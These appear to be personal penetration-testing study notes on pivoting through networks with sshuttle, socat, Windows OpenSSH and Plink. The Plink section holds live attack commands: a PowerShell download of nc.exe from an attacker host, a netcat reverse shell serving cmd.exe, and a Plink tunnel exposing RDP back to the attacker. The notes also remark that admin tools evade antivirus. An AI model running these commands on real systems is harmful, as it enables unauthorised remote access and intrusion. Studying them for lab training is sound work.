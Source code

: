 as with any dynamic ssh tunneling make sure to mod the 
/etc/proxychains4.conf


Using sshuttle

sshuttle is a tool that turns ssh connection into vpn like set up, it forces traffic through the ssh tunnel

it does need root on the client and python3 on the ssh server

first set up port forwarding in DMZ on 2222 of the WAN and forward to 22 on the DB

socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22

now on kali, we run sshuttle

sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24

specifying the ssh connection string we use and subnets we tunnel though


Port forwarding with windows

ssh.exe

openssh is bundled since 1803, we can find scp.exe, sftp.exe, ssh.exe with other ssh-* in Windows\System32\OpenSSH

literally the same command as on linux because it's all openssh


Plink

Admin may avoid leaving OpenSSH on their windows machine

but admin do still need a remote admin tool

most network admin uses PuTTY and Plink before ssh was so avalible

tools that's popular with network admins means av will rarely flag it

assume above senario but reversed

/umbraco/forms.aspx webshell at

find / -name nc.exe 2>/dev/null
finding nc.exe for windows reverse netcat

powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
powershell command to grab the nc.exe to windows

we can then serve cmd to kali via
nc.exe -e cmd.exe <ip>:<port>

find / -name plink.exe 2>/dev/null
finds plink

server the plink

C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 <myip>
ssh tunneling with plink

